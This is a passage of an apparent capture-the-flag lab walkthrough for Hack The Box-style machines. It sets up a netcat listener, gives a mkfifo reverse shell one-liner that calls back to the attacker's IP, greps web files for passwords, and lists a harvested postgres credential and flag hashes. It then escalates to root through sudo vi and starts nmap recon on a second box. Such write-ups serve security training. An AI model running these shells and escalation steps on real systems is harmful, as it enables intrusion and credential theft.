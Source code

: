 ```
nc -nlvp 4444
```

inject netcat reverse shell from: https://www.revshells.com/
```
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.252 4444 >/tmp/f
```

Find clear text passwords in .php files
```
cd /var/www/html
grep -iR "pass" *
```

USER: postgres
PASSWORD: P@s5w0rd!

```
ssh postgres@10.129.25.68
```

USER.TXT: ec9b13ca4d6229cd5cc1e09980965bf7

```
sudo -l
```

TARGET: /bin/vi

https://gtfobins.github.io/gtfobins/vi/#sudo
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:set shell=/bin/sh
:shell
```

FLAG: dd6e058e814260bc70e9bbdef2715849

--------------------------------------------------------------------

## UNIFIED BOX

**TOOLS USED**: nmap, Burp Suite, netcat, Wireshark

**IP Address**: 10.129.65.88

```
nmap -sC -sV -p- -oN unified_nmap.txt 10.129.65.88
```

**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
6789 (ibm-db2-admin),<br>
8080 (http-proxy),<br>
8443 (ssl),<br>
8843 (ssl),<br>
8880 (ssl)<br>

HTTP: https://10.129.65.88:8443/manage/account/login
